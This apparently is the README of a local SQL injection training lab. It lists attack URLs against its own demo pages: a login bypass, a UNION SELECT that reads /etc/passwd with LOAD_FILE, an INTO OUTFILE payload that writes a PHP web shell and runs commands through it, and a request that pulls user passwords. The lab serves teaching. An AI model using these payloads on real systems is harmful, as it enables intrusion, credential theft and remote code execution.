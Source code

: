 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100)

## Attack

### Verification

Error when calling this url:

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27)

### List all products

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1)

# Login Example

## Standard

[http://127.0.0.1:8781/login/login.php](http://127.0.0.1:8781/login/login.php)

Enter 'admin', 'admin'

## Attack

### Verification

Enter some credentials. Check url.

Error when calling this url:

[http://127.0.0.1:8781/login/login.php?user=user'&password=pass'](http://127.0.0.1:8781/login/login.php?user=user'&password=pass')

### Circumvent Login

[http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1](http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1)

# File Attacks

## Standard

[http://127.0.0.1:8781/load_file/list_users.php?UserID=2](http://127.0.0.1:8781/load_file/list_users.php?UserID=2)

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

[http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%201,2,3](http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT 1,2,3)

## Read sensible files

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

Use `LOAD_FILE`:

http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3

`http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT LOAD_FILE('/etc/passwd/'),2,3`

## Write code to server

Using LAMP Server:

### Standard

[http://127.0.0.1:8782/into_outfile/list_users.php?UserID=1](http://127.0.0.1:8782/into_outfile/list_users.php?UserID=1)

### Attack

Use `INTO OUTFILE`:

http://127.0.0.1:8782/into_outfile/list_users.php?UserID=1%20UNION%20SELECT%201,2,%27%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/cmd.php%27

`/var/www/html/cmd.php` should not exist before.

After that you can check remote code execution with:

http://127.0.0.1:8781/cmd.php?cmd=ls

# Generic Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php](http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php)

## Attack

[http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users](http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users)

# Form Skip Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php)

Form to choose a customer showing soft skills

## Verification

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param='](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param=')
